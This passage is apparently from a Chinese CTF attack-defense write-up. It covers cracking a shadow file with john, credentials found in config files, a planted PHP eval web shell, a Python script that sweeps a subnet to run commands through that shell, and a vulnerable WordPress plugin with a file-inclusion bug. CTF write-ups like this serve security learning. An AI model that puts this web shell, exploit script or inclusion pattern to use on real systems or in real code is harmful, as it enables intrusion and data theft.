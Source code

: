 再使用john工具爆破得到密码明文<br>
破解shadow的命令<br>
john —wordlist 字典文件 shadow文件<br>
john —wordlist zidian.txt shadow.txt

然后查看数据库配置文件，有注释说这是从info2迁移的，连接数据库是info2用户，得到info2的密码为call911，然后登录上info2后在home目录发现mysql history，打开后发现是创建了一个info8的用户，密码为arkteam。



## 攻防

### <a class="reference-link" name="score1%E4%B8%8A%E6%98%AF%E4%B8%80%E4%B8%AAwordpress%204.7.x%E7%9A%84%E7%BD%91%E7%AB%99"></a>score1上是一个wordpress 4.7.x的网站

#### <a class="reference-link" name="1.%E9%A2%84%E7%95%99%E5%90%8E%E9%97%A8"></a>1.预留后门

&lt;?php [@eval](https://github.com/eval)($_GET[‘cmd’]); ?&gt;<br>
exp[代码]

```
import requests
part_url="/wp-includes/rest-api/endpoints/class-wp-rest-relations-controller.php?cmd=system('cat /opt/xnuca/flag.txt');"
for i in range(1,22):
    try:
        ip1='192.121.'+str(i)+'.31'
        ip='http://192.121.'+str(i)+'.31'
        full_url=ip+part_url
        res=requests.get(url=full_url,timeout=2)
        # print res.status_code
        if res.status_code!=404:
            print ip1
            print res.text
    except Exception,e:
        pass
```

#### <a class="reference-link" name="2.%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E"></a>2.文件包含漏洞

漏洞文件/wp-content/plugins/wp-vault/trunk/wp-vault.php<br>
参数wpv-image存在文件包含，漏洞关键代码如下[代码]

```
// Load CSS, JS files, or invoke file handler.
function wpv_init() `{`
    if (isset($_GET["wpv_file_id"])) `{`
        include(dirname(__FILE__) . "/wpv-file-handler.php");
        exit;
    `}`
    else if (isset($_POST["wpv-tooltip"])) `{`
        include(dirname(__FILE__) . "/ajax-response/wpv-tooltip.php");
        exit;
    `}`
    else if (isset($_GET["wpv-image"])) `{`
        include(dirname(__FILE__) . "/images/" . $_GET["wpv-image"]);
        exit;
    `}`
    else if (isset($_GET["wpv-css"])) `{`
        if (file_exists(dirname(__FILE__) . "/css/" . $_GET["wpv-css"] . ".css")) `{`
            header("Content-type: text/css");
            include(dirname(__FILE__) . "/css/" . $_GET["wpv-css"] . ".css");
            exit;
```